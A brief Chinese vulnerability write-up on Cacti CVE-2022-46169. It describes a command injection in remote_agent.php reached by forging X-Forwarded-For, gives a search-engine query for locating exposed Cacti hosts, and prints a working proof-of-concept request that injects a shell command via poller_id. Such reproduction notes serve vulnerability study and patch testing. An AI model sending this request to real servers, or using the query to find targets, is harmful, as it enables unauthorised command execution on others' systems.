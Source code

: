 # Cacti remote_agent.php 远程命令执行漏洞 CVE-2022-46169

## 漏洞描述

Cacti是一个服务器监控与管理平台。在其1.2.17-1.2.22版本中存在一处命令注入漏洞，攻击者可以通过X-Forwarded-For请求头绕过服务端校验并在其中执行任意命令。

## 漏洞影响

<a-checkbox checked>Cacti < 1.2.17-1.2.22</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Cacti-监控系统"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1671182791178-ea22a02a-7451-4ad6-b9fb-03dcc3a17651.png)

验证POC

```python
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`id>1.txt`
X-Forwarded-For: 127.0.0.1
```

![img](../../../.vuepress/public/img/1671183300849-373782ab-7b1d-4166-88a7-34657bfb6025.png)

![img](../../../.vuepress/public/img/1671183331943-89eccd02-cf00-478f-8093-173a5c14bd47.png)